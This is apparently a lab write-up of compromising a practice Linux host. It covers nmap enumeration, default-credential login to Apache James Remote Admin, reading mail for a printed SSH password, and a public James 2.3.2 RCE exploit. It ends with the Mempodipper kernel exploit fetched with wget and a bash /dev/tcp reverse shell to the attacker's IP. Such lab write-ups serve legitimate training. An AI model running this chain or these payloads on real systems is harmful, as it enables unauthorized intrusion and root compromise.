








## Enumeration
### NMAP

```bash
nmap -sC -sV -v -p- -oN scans/nmap.txt 10.11.1.72
```

```text
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 5.8p1 Debian 7ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d3:2e:10:0d:48:90:ce:9a:33:fb:66:3f:a0:a6:94:48 (DSA)
|   2048 ef:0a:3b:8e:3f:92:a4:5e:f0:ab:e7:7d:75:f0:de:0e (RSA)
|_  256 15:3a:65:3b:97:ed:e0:fc:85:bc:4b:53:48:22:61:b1 (ECDSA)
25/tcp    open     smtp           JAMES smtpd 2.3.2
|_smtp-commands: beta Hello nmap.scanme.org (192.168.119.230 [192.168.119.230])
79/tcp    filtered finger
80/tcp    open     http           Apache httpd 2.2.20 ((Ubuntu))
|_http-server-header: Apache/2.2.20 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open     pop3           JAMES pop3d 2.3.2
111/tcp   open     rpcbind        2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33026/tcp6  mountd
|   100005  1,2,3      34802/udp6  mountd
|   100005  1,2,3      39677/tcp   mountd
|   100005  1,2,3      45879/udp   mountd
|   100021  1,3,4      33307/tcp   nlockmgr
|   100021  1,3,4      42738/tcp6  nlockmgr
|   100021  1,3,4      47140/udp   nlockmgr
|   100021  1,3,4      52537/udp6  nlockmgr
|   100024  1          40464/udp6  status
|   100024  1          52985/udp   status
|   100024  1          54112/tcp   status
|   100024  1          60669/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
119/tcp   open     nntp           JAMES nntpd (posting ok)
491/tcp   filtered go-login
2049/tcp  open     nfs_acl        2-3 (RPC #100227)
2197/tcp  filtered mnp-exchange
3571/tcp  filtered megardsvr-port
3759/tcp  filtered exapt-lmgr
4555/tcp  open     james-admin    JAMES Remote Admin 2.3.2
8747/tcp  filtered unknown
8815/tcp  filtered unknown
9868/tcp  filtered unknown
10522/tcp filtered unknown
11209/tcp filtered unknown
12622/tcp filtered unknown
13561/tcp filtered unknown
15835/tcp filtered unknown
18694/tcp filtered unknown
20965/tcp filtered unknown
25436/tcp filtered unknown
27445/tcp filtered unknown
28993/tcp filtered unknown
32767/tcp filtered filenet-powsrm
33307/tcp open     nlockmgr       1-4 (RPC #100021)
34590/tcp filtered unknown
36020/tcp filtered unknown
37220/tcp filtered unknown
39677/tcp open     mountd         1-3 (RPC #100005)
44868/tcp filtered unknown
46770/tcp filtered unknown
47867/tcp open     mountd         1-3 (RPC #100005)
49317/tcp filtered unknown
54112/tcp open     status         1 (RPC #100024)
54705/tcp filtered unknown
55405/tcp filtered unknown
56100/tcp filtered unknown
56813/tcp open     mountd         1-3 (RPC #100005)
57380/tcp filtered unknown
57932/tcp filtered unknown
59663/tcp filtered unknown
60031/tcp filtered unknown
62444/tcp filtered unknown
62861/tcp filtered unknown
```

## Inital Access

### James RAT 2.3.2

According to the `nmap` scan there's an odd looking port `4555`. We can use `netcat` to enumerate.

```bash
nc -v 10.11.1.72 4555
```

  

It's running `JAMES Remote Administration Tool 2.3.2`. If we look [online](https://crimsonglow.ca/~kjiwa/2016/06/exploiting-apache-james-2.3.2.html#:~:text=By%20default%2C%20the%20Apache%20James,%22%20command%20(Figure%2011).), the default credentials are `root:root`.

  

Now that we've logged in, we're able list users and reset their passwords using `listusers` and `setpassword`.

  

### Telnet - POP

We can now login using `telnet` via `pop`.

```bash
telnet 10.11.1.72 110
```

This is a useful [website](https://knowledgebase.progress.com/articles/Article/POP3-commands-by-telnet-1307739576862) with POP commands.

We're able to login and read emails, one of which contains credentials for the `ryuu` user.

  

```text
ryuu:QUHqhUPRKXMo4m7k
```

## Restricted Shell

We can login via `ssh`.

  

If we try and run commands we are blocked because we're in a restricted shell.

  

Unfortunately we aren't able to escape the shell, however there was an exploit for `Apache James Server 2.3.2` that we can look into as a possible alternative.

## User Shell
### Apache James Exploit

```bash
searchsploit Apache James Server 2.3.2
```

There are RCE exploits for our exact version.

  

Copy the exploit to our working directory and execute it.

```bash
cp /usr/share/exploitdb/exploits/linux/remote/50347.py ./
```

The exploit will connect back to us so let's setup a `netcat` listener.

```bash
rlwrap nc -lnvp 9001
```

Now we can execute the exploit, specifying the target, our machines IP and listening port.

```bash
python3 50347.py 10.11.1.72 192.168.119.230 9001
```

Looks like the exploit worked. We just have to ssh to execute the exploit and get our shell.

  

```bash
ssh ryuu@10.11.1.72
```

And we get a connection on our listener!

  

We are no longer in a restricted shell.

We need to add `/usr/bin` to our `PATH`.

```bash
export PATH=$PATH:/bin:/usr/bin
```

Upgrade shell.

```bash
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```

## Root Shell

Let's find out more about the target.

```bash
uname -a
```

It's running a pretty old version of Linux.

```text
Linux beta 3.0.0-12-generic #20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686 athlon i386 GNU/Linux
```

If we search `3.0.0-12-generic` we immediately get results for exploits, in particular [Mempodipper](https://www.exploit-db.com/exploits/35161).

Download to our machine.

```bash
wget https://www.exploit-db.com/raw/35161 -O exploit.c
python3 -m http.server 80
```

Upload to target, compile and execute exploit.

```bash
wget http://192.168.119.230/exploit.c -O exploit.c
gcc exploit.c -o exploit
chmod +x ./exploit
./exploit
```

And it works!

  

## Post Exploitation
### Better Root Shell

Setup another `netcat` listener.

```bash
nc -lnvp 9002
```

Then execute a bash reverse shell payload in the root shell.

```bash
/bin/bash -c "bash -i >& /dev/tcp/192.168.119.230/9002 0>&1"
```

And we get our connection.


### Proof

```bash
cat /root/proof.txt && ifconfig
```

  

```text
94b90a5f2996a89b71d814d4f96c22f3
```